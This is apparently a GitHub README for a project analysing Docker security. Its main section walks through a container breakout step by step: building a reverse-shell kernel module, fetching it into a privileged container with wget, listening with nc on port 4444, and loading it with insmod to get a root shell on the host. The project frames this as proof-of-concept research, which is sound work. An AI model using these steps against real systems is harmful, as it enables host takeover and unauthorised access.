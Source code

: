 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

- ### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**:

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
  ```bash
  cd reverseshell
  make
  ```
2. Start a Python Server in the *reverseshell* directory using the command:
  ```bash
  python3 -m http.server
  ```
3.  On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
  ```bash
  docker run --rm --privileged -it alpine sh
  ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
  ```bash
  wget http://172.17.0.1:8000/reverseshell_module.ko
  ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
  ```bash
  chmod +x reverseshell_module.ko
  ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
  ```bash
  nc -nlvp 4444
  ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
  ```bash
  insmod reverseshell_module.ko
  ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.
